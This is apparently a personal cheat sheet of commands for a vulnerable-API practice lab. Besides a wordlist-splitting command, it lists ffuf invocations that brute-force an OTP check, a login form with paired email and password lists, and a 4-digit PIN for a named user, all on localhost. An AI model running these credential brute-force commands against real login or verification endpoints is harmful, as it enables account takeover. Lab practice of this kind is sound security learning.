 # Useful things
## Split into 5 files (modify -l for different number of files)
split -l 2000 -d wordlist.txt wordlist_part

## ffuf
    ffuf -w list.txt -X POST -d '{"otp":"FUZZ"}' -H "Content-Type: application/json" -u http://localhost/vapi/api4/otp/verify --mc 200 -s

## ffuf pitchfork
    ffuf -w emails.txt:FUZZ1 -w pwds.txt:FUZZ2 -d '{"email":"FUZZ1","password":"FUZZ2"}' -X POST -H "Content-Type: application/json" -u http://localhost/vapi/api2/user/login -mc 200 -mode pitchfork

## filtering out by reponse size ffuf
    ffuf -w 4_digit_pin.txt -d '{"username":"richardbranson","pin":"FUZZ"}' -X POST -H "Content-Type: application/json" -u http://localhost/vapi/api9/v1/user/login -fs 0
